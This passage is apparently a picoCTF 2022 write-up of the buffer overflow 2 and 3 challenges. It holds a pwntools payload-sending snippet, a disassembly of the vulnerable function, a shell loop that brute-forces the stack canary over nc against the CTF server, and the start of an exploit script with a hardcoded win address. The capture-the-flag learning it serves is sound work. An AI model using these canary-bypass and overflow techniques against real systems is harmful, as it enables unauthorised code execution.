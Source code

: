 ```python
# We send the payload and a newline
print("Sending payload")
p.sendline(payload)
print("Payload sent")

# We receive the output of the Win function
sleep(1)
output = p.recv()
print(output)
```


#### Referensi
https://musyokaian.medium.com/buffer-overflow-2-picoctf-2022-590cf7b7961f
### buffer overflow 3
```sh
objdump -M intel -S ./vuln
```
output:
```
vuln:
  push   ebp ; preserve ebp
  mov    ebp,esp ; ebp points at preserved ebp value
  sub    esp,0x58

  mov    DWORD PTR [ebp-0xc],0x0 ; x = 0
  
  mov    eax,ds:0x804a058
  mov    DWORD PTR [ebp-0x10],eax ; memcpy(canary,global_canary,CANARY_SIZE);

  ; ...
  mov    eax,DWORD PTR [ebp-0x54]
  sub    esp,0x4
  push   eax  ; count
  lea    eax,[ebp-0x30] ; buf
  push   eax
  push   0x0  ;  0
  call   80484f0 <read@plt> ; read(0,buf,count);
  add    esp,0x10
  ; ...
```

#### exploit
```sh
for i in {0..255}; do python -c "print('33\n' + 'A'*32 + chr($i))" | nc saturn.picoctf.net 52443 >/dev/null && echo "$i"; done
```

```python
from pwn import *
from colorama import Fore, Style

# Global variables
manyByte = 65
startByte = 64
winAddress = 0x8049336

# Turn on/off remote server
isRemote = False
if isRemote == True:
    remoteServer = remote('saturn.picoctf.net', 63971)

print(Fore.RED + '[picoCTF buffer overflow 3]' + Style.RESET_ALL, end='')

def tempFile(filename, content):
```